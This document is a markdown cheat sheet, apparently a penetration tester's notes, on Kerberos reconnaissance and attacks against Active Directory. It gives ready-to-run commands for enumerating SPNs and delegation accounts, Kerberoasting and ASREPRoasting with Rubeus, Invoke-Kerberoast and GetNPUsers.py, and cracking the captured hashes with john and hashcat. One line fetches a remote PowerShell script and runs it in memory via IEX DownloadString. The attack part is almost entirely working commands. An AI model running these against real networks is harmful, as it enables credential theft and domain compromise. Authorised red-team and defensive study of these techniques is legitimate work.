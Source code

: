# Kerberos Info Gathering
## Query SPNs
If you want to first only query registered SPNs to limit the noise, there are different methods.   
**CMD.exe**   
Using cmd.exe: (The following example searches all SPNs in the domain from MSSQL servers)   
`setspn -Q MSSQLSvc/*`   

Using cmd.exe on a foreign domain: (The following example searches for Hyper-V related SPNs)   
`setspn -Q *hyper*/* -T <domainname>`   

**Native PowerShell**   
```
$search = [adsisearcher]"(&(sAMAccountType=805306368)(servicePrincipalName=*))"
$search.PageSize = 10000
$spnusers = $search.FindAll()
```   
**BloodHound**   
Using BloodHound: (list all user accounts with an SPN)   
`MATCH (u:User {hasspn:true}) RETURN u`   
You can even expand the BloodHound query to include pathes to computers from these accounts:   
`MATCH (u:User {hasspn:true}), (c:Computer), p=shortestPath((u)-[*1..]->(c)) RETURN p`   

## Get Kerberos Delegation Accounts
Requires AD Modules:   
`Get-ADObject -filter { (UserAccountControl -BAND 0x0080000) -OR (UserAccountControl -BAND 0x1000000) -OR (msDS-AllowedToDelegateTo -like '*') } -prop Name,ObjectClass,PrimaryGroupID,UserAccountControl,ServicePrincipalName,msDS-AllowedToDelegateTo`   

# Kerberos Attacks
## Kerberoasting
From Windows against single user using Rubeus.exe:   
`.\Rubeus.exe kerberoast /user:svc_mssql /nowrap`   
Using Invoke-Kerberoast:    
`IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-Kerberoast -OutputFormat Hashcat`   

### Cracking
`john --format=krb5tgs --wordlist=wordlist svc_mssql`   
`hashcat -a 0 -m 13100 svc_mssql wordlist`   

## ASREPRoast 
Query accounts for "do not require Kerberos pre-authentication":   
`([adsisearcher]"(&(sAMAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))").FindAll()`   
Find such users in BloodHound:   
`MATCH (u:User {dontreqpreauth:true}) RETURN u`   

If accounts do not require kerberos pre-authentication, the tool GetNPUsers.py can be used to do ASREPRoasting:   
`GetNPUsers.py -request domain.local/someaccount:`   

On Windows:   
`.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast`   
`Get-ASREPHash -Username someuser123 -verbose #From ASREPRoast.ps1 (https://github.com/HarmJ0y/ASREPRoast)`   

### Cracking
`john --wordlist=passwords_kerb.txt hashes.asreproast`   
`hashcat --attack-mode 0 --hash-type 18200 hashes.asreproast /srv/wordlists/uncompressed/crackstation-human-only.txt --rules-file /srv/rules/nsa_500.txt`   
